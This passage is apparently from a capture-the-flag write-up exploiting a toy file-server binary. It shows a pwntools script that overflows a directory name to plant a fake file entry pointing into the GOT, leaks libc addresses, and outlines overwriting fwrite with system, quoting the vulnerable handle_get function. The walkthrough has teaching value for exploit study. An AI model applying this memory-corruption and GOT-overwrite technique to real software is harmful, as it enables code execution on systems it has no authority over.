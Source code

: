 With a leak of the base address we can repeat the previous procedure to print values from the GOT and try to find the libc.

```python
prog = log.progress('Putting fake GOT entry')
got_entry  = p64(0) # parent_directory, don't care
got_entry += p32(2) # type = FILE_ENTRY
got_entry += 'got'.ljust(20, '\x00') # name
got_entry += p64(2*8) # size
got_entry += p64(base + 0x205018 + 192) # data = start of GOT + 192 (frwite entry)
put_file('got_entry', got_entry)
prog.success()

prog = log.progress('Overflowing directory (GOT)')
dirname  = 'B' * (20 + 8 + 17*8) # name + size + 17 entry*
dirname += p32(got_entry_addr) # 18th fake entry
send_cmd('mkdir ' + dirname)
prog.success()

prog = log.progress('Triggering directory reallocation (GOT)')
trunc_dirname = 'B'*20 + '\x10'
send_cmd('cd ' + trunc_dirname)
for i in range(17):
    put_file(str(i), 'A')
prog.success()

got = get_file('got')
for i in range(0, len(got), 8):
    print(hex(u64(got[i:i+8])))
```

With this snippet we can print the address of fwrite and rand, the last 2 GOT entries.

With a quick lookup in our libc database I found that we have a match with Ubuntu GLIBC 2.23-0ubuntu9 (you can found it in the attached zip file)

What's next? With the fake entry for the got that we have created before we can use put_file to overwrite the fwrite entry with system.

fwrite is used in writen and writen is called in handle_get.

```c
bool handle_get(char* path) {
  file_entry* file = find_file(path);
  if (file) {
    printf("%zu\n", file->size);
    writen(file->data, file->size); //calls fwrite(file->data, ...)
  } else {
    printf("File \"%s\" not found.\n", path);
  }

  return true;
}
```
